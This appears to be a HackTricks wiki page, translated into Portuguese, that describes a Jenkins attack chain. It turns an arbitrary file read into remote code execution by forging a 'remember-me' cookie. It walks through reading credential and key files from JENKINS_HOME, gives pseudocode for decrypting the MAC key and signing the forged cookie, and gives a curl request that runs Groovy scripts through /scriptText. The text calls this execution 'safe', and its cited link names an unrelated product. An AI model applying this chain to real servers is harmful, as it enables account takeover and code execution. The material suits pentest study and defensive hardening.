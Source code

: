 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

Neste post do blog é possível encontrar uma ótima maneira de transformar uma vulnerabilidade de Inclusão de Arquivo Local no Jenkins em RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Este é um resumo criado por IA da parte do post onde a criação de um cookie arbitrário é abusada para obter RCE abusando de uma leitura de arquivo local até que eu tenha tempo para criar um resumo por conta própria:

### Attack Prerequisites

- **Feature Requirement:** "Lembre-se de mim" deve estar habilitado (configuração padrão).
- **Access Levels:** O atacante precisa de permissões Gerais/Leitura.
- **Secret Access:** Capacidade de ler tanto conteúdo binário quanto textual de arquivos-chave.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

- Acesse a configuração do usuário e segredos de `$JENKINS_HOME/users/*.xml` para cada usuário para coletar:
- **Nome de usuário**
- **Semente do usuário**
- **Timestamp**
- **Hash da senha**

**Secret Key Extraction**

- Extraia chaves criptográficas usadas para assinar o cookie:
- **Chave Secreta:** `$JENKINS_HOME/secret.key`
- **Chave Mestra:** `$JENKINS_HOME/secrets/master.key`
- **Arquivo da Chave MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

- **Calcular Tempo de Expiração do Token:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Adiciona uma hora ao tempo atual
```

- **Concatenar Dados para o Token:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC Key Decryption**

- **Descriptografar o Arquivo da Chave MAC:**

```javascript
key = toAes128Key(masterKey)  // Converter chave mestra para formato de chave AES128
decrypted = AES.decrypt(macFile, key)  // Descriptografar o arquivo .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

- **Calcular HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey) // Calcular HMAC usando o token e a chave MAC
tokenSignature = bytesToHexString(mac) // Converter o MAC para uma string hexadecimal
```

**Cookie Encoding**

- **Gerar Cookie Final:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Codificar os dados do cookie em Base64
```

#### Step 3: Code Execution

**Session Authentication**

- **Buscar Tokens CSRF e de Sessão:**
- Faça uma solicitação para `/crumbIssuer/api/json` para obter `Jenkins-Crumb`.
- Capture `JSESSIONID` da resposta, que será usado em conjunto com o cookie de lembrete.

**Command Execution Request**

- **Enviar uma Solicitação POST com Script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- O script Groovy pode ser usado para executar comandos em nível de sistema ou outras operações dentro do ambiente Jenkins.

O exemplo de comando curl fornecido demonstra como fazer uma solicitação ao Jenkins com os cabeçalhos e cookies necessários para executar código arbitrário de forma segura.

{{#include ../../banners/hacktricks-training.md}}
